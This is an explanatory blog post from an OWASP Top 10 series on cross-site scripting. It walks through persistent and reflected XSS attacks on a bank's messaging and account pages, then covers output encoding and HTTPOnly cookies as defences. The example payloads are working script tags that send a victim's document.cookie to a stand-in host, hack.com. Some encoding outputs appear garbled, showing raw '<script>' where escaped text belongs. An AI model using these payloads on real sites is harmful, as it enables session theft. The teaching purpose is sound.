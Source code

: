```yaml
---
authors:
- Laurent Mathieu
categories:
- OWASP
- Sécurité
- Web
date: 2013-10-28T08:57:07.000Z
title: "OWASP Top 10 - A3 Cross Site Scripting (XSS)"
image: 
---
```


## Description

Cross-Site Scripting is a specific consequence of an injection attack. The goal is to make a web browser execute arbitrary scripting code (Javascript, ActionScript, ActiveX…) usually to steal personal information.


## Examples

### Persistent XSS attack

The attacker’s bank website proposes a messaging service to communicate with the clerk.  
 The attacker posts the following message: 
```language-html 
Happy New Year!  
 <script>x=new Image(); x.src=’http://hack.com/ilovecookies.jsp?yummy=’+document.cookie</script>
```

Once connected on the bank’s website with its special account, the bank clerk consults its new messages. When he opens the suspicious message, he will see the “Happy New Year!” greetings. The second line of the message will not be shown but interpreted by his browser which will silently send his session ID to *hack.com*. Then the attacker will be able to hijack the clerk’s session on the bank’s website to have access to sensitive information on other clients…

### Non-persistent XSS attack

The attacker sends to the clerk an email asking him to consult its account with the following direct link to the website:  
```language-html
https://www.mybank.com/details?iban=<script>x=new Image(); x.src=’http://hack.com/ilovecookies.jsp?yummy=’+document.cookie</script>
```

Once authenticated with its own account, the clerk tries to display the account page using the provided link but obviously the bank could not find the requested IBAN and displays an error page to the clerk:  
```language-html
IBAN not found: <script>x=new Image(); x.src=’http://hack.com/ilovecookies.jsp?yummy=’+document.cookie</script>
```

Of course, the clerk can only see the beginning of the message “`IBAN not found: `“. The javascript snippet is interpreted by the clerk’s browser and silently send the clerk’s session ID to *hack.com*.


## Mitigations

### Protection against injection attack

If your web application is not protected against [injection](http://blog.ippon.fr/2013/10/11/owasp-top-10-a1/ "OWASP Top 10 - A1 Injection") attacks, it is definitely vulnerable to XSS attacks. When possible, validate untrusted input before usage and storage.

### Output encoding

Sometimes, it is difficult to have an exhaustive white-list of allowed characters when the input is a free text. In theses cases, it is important to canonicalize the input data before storage then encode output data so that special characters are not misinterpreted by the browser. If you don’t canonicalize the input data before storage, encoded input data will be re-encoded.  
 E.g. < and > must be converted into `<` and `>` in HTML pages or the string between these 2 characters could be interpreted by the browser as an HTML tag. In the examples above, after encoding, `<script>` becomes `<script>` and won’t be interpreted as a script tag by the browser but displayed as text. Thus the suspicious javascript code won’t be executed.  
 Of course, untrusted code can be inserted anywhere in the web page. [ESAPI](https://www.owasp.org/index.php/Category:OWASP_Enterprise_Security_API "ESAPI")‘s Encoder can be used to encode characters depending on where you need to insert untrusted code. Below are some examples:

```language-java
Encoder encoder = ESAPI.encoder();
String rawOutput = "<script>alert("hello");</script>";
System.out.println("Encoded for HTML : "+encoder.encodeForHTML(rawOutput));
System.out.println("Encoded for CSS : "+encoder.encodeForCSS(rawOutput));
System.out.println("Encoded for Javascript : "+encoder.encodeForJavaScript(rawOutput));
System.out.println("Encoded for URL : "+encoder.encodeForURL(rawOutput));
```

Console output:

```language-html
<em>Encoded for HTML : <script>alert("hello");</script>
Encoded for CSS : 3c script3e alert28 22 hello22 29 3b 3c 2f script3e
Encoded for Javascript : x3Cscriptx3Ealertx28x22hellox22x29x3Bx3Cx2Fscriptx3E
Encoded for URL : %3Cscript%3Ealert%28%22hello%22%29%3B%3C%2Fscript%3E</em>
```

Other open-source third-parties exist to encode text before output. Have a look on [Apache Commons-Lang3 API](http://commons.apache.org/proper/commons-lang/javadocs/api-3.1/org/apache/commons/lang3/StringEscapeUtils.html "Apache Commons-Lang3"). It is less strict on encoding but it is acceptable for a simple web application.

`System.out.println("Encoded for HTML : "+StringEscapeUtils.escapeHtml4(rawOutput));`

Console output:

`<em>Encoded for HTML : <script>alert("hello");</script></em>`

### HTTPOnly cookie flag

The examples above show teo different ways to steal a session ID. As discussed in the previous article, if an attacker steals the session ID of an user authenticated on a website, he can impersonate the victim on that website.

Although only the web browser needs to know the session ID, anyone (including a script) could read the value. That’s why Microsoft IE6 developers decided to implement the HTTPOnly flag. When this flag is set (and if the browser supports it), the XSS attack above won’t be able to steal the session ID.

If your application is Servlet 3.0 compliant, you can configure it by adding the following in your `web.xml`:  
```language-xml
<session-config>
  <cookie-config>
    <http-only>true</http-only>
  </cookie-config>
</session-config>
```

Otherwise, you will need to configure your server. For example, if you use Apache Tomcat 6, you can set the HTTPOnly flag on cookies by adding the attribute `useHttpOnly="true"` in your `context.xml`:  
```language-xml
<Context ... <em>useHttpOnly="true"</em>>
</Context>```

To see all articles related to OWASP Top 10, follow the tag [#owasp](http://blog.ippon.fr/tag/owasp/ "OWASP Top 10")
